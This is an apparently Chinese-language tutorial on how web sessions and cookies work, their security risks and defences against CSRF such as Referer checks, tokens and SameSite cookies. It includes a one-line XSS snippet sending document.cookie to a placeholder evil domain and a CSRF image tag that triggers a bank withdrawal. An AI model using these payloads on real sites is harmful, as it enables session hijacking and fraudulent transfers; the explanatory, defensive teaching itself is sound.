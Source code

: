 ### 什么是Session

Session工作原理：

1. 当一个用户向服务器发送第一个请求时，服务器为其建立一个session，并为此session创建一个标识号（sessionID）。
2. 这个用户随后的所有请求都应包括这个标识号（sessionID）。服务器会校对这个标识号以判断请求属于哪个session。

对于session标识号（sessionID），有两种方式实现：Cookie和URL重写，猪哥就以Cookie的实现方式画一个Session原理图。

![2](https://mmbiz.qpic.cn/mmbiz_png/lbvmSLlcGOicIHvCd7lAde60gAEyrzKkoenficyGn5bX7D5CTWf44q8L0iaicCkYMpe4dCGSibbukrf4uQ52aedRSicw/640?wx_fmt=png)

### Cookie和Session关系

1. 都是为了实现客户端与服务端交互而产出
2. Cookie是保存在客户端，缺点易伪造、不安全
3. Session是保存在服务端，会消耗服务器资源
4. Session实现有两种方式：Cookie和URL重写

### Cookie带来的安全性问题

1. **会话劫持和XSS**：在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。
2. **跨站请求伪造（CSRF）**：维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：`<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">`当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。**解决CSRF的办法有：隐藏域验证码、确认机制、较短的Cookie生命周期等**

 ### 如何防御

**（1）验证 HTTP Referer 字段** 

 根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。 

如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值 。

然而，这种方法并非万无一失。Referer 的值是由浏览器提供的 ，目前已经有一些方法可以篡改 Referer 值 。

即便是使用最新的浏览器，黑客无法篡改 Referer 值，这种方法仍然有问题。因为 Referer 值会记录下用户的访问来源，有些用户认为这样会侵犯到他们自己的隐私权，因此，用户自己可以设置浏览器使其在发送请求时不再提供 Referer。当他们正常访问银行网站时，网站会因为请求没有 Referer 值而认为是 CSRF 攻击，拒绝合法用户的访问。 

**（2）在请求地址中添加 token 并验证** 

CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。 

这种方法要比检查 Referer 要安全一些，token 可以在用户登陆后产生并放于 session 之中，然后在每次请求时把 token 从 session 中拿出，与请求中的 token 进行比对，但这种方法的难点在于如何把 token 以参数的形式加入请求。 在一个网站中，可以接受请求的地方非常多，要对于每一个请求都加上 token 是很麻烦的。

**（3）SameSite Cookie**

Set-Cookie 响应头新增 SameSite 属性，它用来标明这个 cookie 是个“同站 cookie”，同站 cookie 只能作为第一方 cookie，不能作为第三方 cookie。SameSite 有两个属性值，分别是 Strict 和 Lax

 `Strict`最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送 Cookie。换言之，只有当前网页的 URL 与请求目标一致，才会带上 Cookie。 

`Lax`规则稍稍放宽，大多数情况也是不发送第三方 Cookie，但是导航到目标网址的 Get 请求除外。 
